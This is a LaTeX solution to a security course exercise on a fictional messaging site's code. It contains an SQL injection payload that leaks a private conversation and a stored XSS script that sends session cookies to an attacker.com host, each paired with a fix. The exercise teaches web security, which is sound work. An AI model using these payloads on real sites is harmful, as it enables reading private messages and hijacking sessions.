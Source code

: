 \documentclass{article}
\begin{document}
\subsection{Exercise 4 - Web Vulnerabilities}
\subsubsection*{Problem}
OpenMessages.com code... Fill out the following table... extract the password... leak the conversation...

\subsubsection*{Solution}
\textbf{Step 1: SQL Injection (SQLi)}
\begin{itemize}
    \item \textbf{Vulnerability}: Line 25 concatenates user input directly: \texttt{query = "SELECT... WHERE (receiver = '" + my\_number + "' AND sender '" + contact\_number + "')..."}.
    \item \textbf{Exploitation (Conversation Leak)}: An attacker can set \texttt{contact\_number} to malicious SQL logic. To leak a conversation between two victims (+39 333 1122333 and +39 333 7788999), the attacker logs in and sets their own \texttt{contact\_number} payload to forcefully override the \texttt{WHERE} clause: \texttt{') OR (receiver = '+39 333 1122333' AND sender '+39 333 7788999') OR (receiver = '+39 333 7788999' AND sender '+39 333 1122333') ; --}. The \texttt{--} comments out the rest of the original query, tricking the DB into returning the private conversation to the attacker's screen.
    \item \textbf{Fix}: Use parameterized queries (\texttt{db\_execute\_query\_with\_statement}).

\end{itemize}
\textbf{Step 2: Cross-Site Scripting (XSS)}
\begin{itemize}
    \item \textbf{Vulnerability}: Line 35 (\texttt{<p>{{ message["message"] }}</p>}). The stored message is rendered directly into the HTML without sanitization.
    \item \textbf{Exploitation (Stored XSS)}: An attacker sends a message containing a malicious JavaScript payload to a victim: \texttt{<script>document.location="http://attacker.com/steal?cookie="+document.cookie</script>}. When the victim opens their private messages, the browser executes the script, stealing their session token.
    \item \textbf{Fix}: The template engine must escape HTML entities before rendering.

\end{itemize}
\end{document}
